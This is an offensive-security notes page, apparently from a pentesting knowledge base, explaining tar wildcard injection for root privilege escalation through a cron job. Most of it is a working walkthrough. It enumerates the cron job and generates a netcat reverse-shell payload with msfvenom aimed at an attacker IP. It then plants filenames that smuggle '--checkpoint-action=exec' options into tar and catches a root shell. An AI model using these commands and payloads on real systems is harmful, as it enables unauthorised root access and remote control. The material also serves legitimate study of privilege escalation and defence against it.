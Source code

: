 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Wildcard Injection

## Concept

**Wildcard injection** is a privilege escalation technique that abuses how shell wildcards (`*`) expand to filenames. If a privileged script (like a cron job) runs a command such as:

```bash
tar -zxf file.tar.gz *
```

...and we control the directory it's run in, we can create files with names like:

* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell.sh`

These are interpreted by `tar` as **command-line options**, not regular files. This lets us inject malicious behavior — like running our own script as `root` — when the privileged `tar` command executes.

```
[ You control a writable dir ] 
         ↓
[ Cron runs: tar -zxf backup.tar.gz * ]
         ↓
[ You create fake files named as tar options ]
         ↓
* expands to:
    --checkpoint=1
    --checkpoint-action=exec=sh shell.sh
         ↓
[ tar executes your shell.sh as root ]
```

## Example

We can use [`pspy`](../tools/infra/pspy.md) or [manually enumerate](../tl-dr/infra/linux.md#scheduled-jobs) the target host:

{% code overflow="wrap" %}
```bash
# Enumerate running processes
$ ./pspy
...
2025/05/24 20:46:01 CMD: UID=0     PID=30275  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

# Manually enumerate cron jobs
$ cat /etc/cron.d/2minutes
...
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```
{% endcode %}

The `2minutes` cronjob runs every two minutes as `root` and extracts the `backup.tar.gz` tarball from the `/tmp` directory into the `/opt/admin` directory using a wildcard (`*`). If we have access on the target directory (`/opt/admin`) we can perform a wildcard injection:

```bash
# Check the target directory's permissions
$ ls -ld /opt/admin
drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
```

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload command on the attacking host
$  msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.X.154 LPORT=443 R
...
mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/sh >/tmp/bhksuw 2>&1; rm /tmp/bhksuw
```
{% endcode %}

In order for this to work, we must create both the `--checkpoint` files and the payload script (`shell.sh`) within the target directory (`/opt/admin`) before the cron job runs. This makes the `*` expand to those filenames, effectively injecting the checkpoint options into `tar`:

{% code overflow="wrap" %}
```bash
# Move into the target directory
$ cd /opt/admin

# Create the reverse shell script
$ echo "mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/bash >/tmp/bhksuw 2>&1; rm /tmp/bhksuw" > shell.sh

# Assing execute permissions to the script
$ chmod +x shell.sh

# Create a checkpoint the executes the script
$ touch -- "--checkpoint-action=exec=sh shell.sh"

# Create the checkpoint trigger
$ touch -- "--checkpoint=1"

# Create an empty tarball within the /tmp directory
$ tar -czf /tmp/backup.tar.gz --files-from=/dev/null

# Confirm that everything is in place
$ ls -l
total 4
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint=1
-rwxr-xr-x 1 cassie cassie 102 May 25 09:35 shell.sh

$ ls -l /tmp/back*
ls -l /tmp/back*
-rw-r--r-- 1 cassie cassie 45 May 25 09:44 /tmp/backup.tar.gz
```
{% endcode %}

After two minutes:

```bash
# Catch the reverse shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.X.154] from (UNKNOWN) [192.168.X.157] 44664
id
uid=0(root) gid=0(root) groups=0(root)
```
